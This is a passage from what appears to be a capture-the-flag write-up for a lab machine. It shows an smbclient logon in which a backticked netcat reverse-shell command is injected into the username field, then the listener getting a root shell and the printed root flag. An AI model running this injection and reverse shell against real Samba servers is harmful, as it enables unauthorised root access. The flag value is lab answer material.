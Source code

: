 {% code lineNumbers="true" %}
```
└─# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup nc -e /bin/sh 10.10.14.6 4444`"
Password: 
```
{% endcode %}

Now check netcat listening port for SMB access. We have root access. Navigate to Root and User flags.

{% code lineNumbers="true" %}
```
└─# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 51242

whoami
root

ls

bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old

cd root

ls

Desktop
reset_logs.sh
root.txt
vnc.log

cat root.txt
5de9fb9b3e0bda0d438c07a35c44140b

cd ..

```
